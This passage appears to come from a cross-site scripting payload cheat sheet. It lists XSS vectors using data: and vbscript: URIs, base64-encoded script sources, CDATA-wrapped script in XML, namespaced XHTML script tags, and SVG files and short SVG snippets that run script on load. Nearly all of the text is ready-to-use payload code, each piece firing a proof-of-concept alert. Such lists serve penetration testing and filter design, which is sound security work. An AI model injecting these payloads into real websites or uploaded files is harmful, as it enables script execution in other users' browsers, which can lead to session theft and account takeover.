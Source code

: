 XSS with data:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript: only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

XSS in SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```
